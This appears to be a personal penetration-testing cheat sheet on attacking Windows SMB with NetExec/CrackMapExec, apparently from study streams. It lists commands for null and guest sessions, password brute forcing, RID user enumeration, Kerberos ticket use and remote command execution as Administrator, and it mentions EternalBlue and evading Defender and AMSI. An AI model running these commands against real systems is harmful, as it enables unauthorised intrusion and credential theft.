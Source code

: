
if smb v1 - try eternal blue


nullsessions
`nxc smb 10.10.10.10`
`nxc smb 10.10.10.10 -u '' -p ''`

`nxc smb 10.10.10.10 -u 'guest' -p ''`
`nxc smb 10.10.11.222 -u 'guest' -p '' --shares`

brute force password
`nxc smb 10.10.10.10 -u 'sofia' -p 'password-file'`

enum usernames
`nxc smb 10.10.10.10 -u 'sofia' -p 'mypass1' --rid-brute`
(rid is the end of the sid)

The same but using Kerberos - Kerberos traffic is more common on the network (the default is NTLM)
`cme smb 10.10.10.10 -u 'sofia' -p 'mypass1'`
`cme smb 10.10.10.10 -u 'sofia' -p 'mypass1' -k`

--use-kcache uses existing Kerberos ticket
`cme smb 10.10.10.10 -u 'sofia' -p 'mypass1' --use-kcache`
get ticket by
`impacket-getTGT -dc-ip 10.10.10.10 domain.LOCAL/usename`
`export KRB5CCNAME= user.ccache`
mostly useful for golden.. tickets
`cme smb 10.10.10.10 -u 'Administrator' -p 'securepass2'`

Execute commands
-x uses cmd
-X uses ps
`cme smb 10.10.10.10 -u 'Administrator' -p 'securepass2' -x 'whoami'`
`cme smb 10.10.10.10 -u 'Administrator' -p 'securepass2' -X 'whoami'`

.cme/obfuscated_scripts
can make your own since fingerprinted - defender finds
custom amsi bypass on cme webbpage

or run ps with cmd lol
`cme smb 10.10.10.10 -u 'Administrator' -p 'securepass2' -x 'powershell.exe -c "GCI C:\"'`

continue from [[Al's stream on crackmapexec]]

check [[audrey]]
check [[win  hacking al]]

-M spider_plus
from kristiee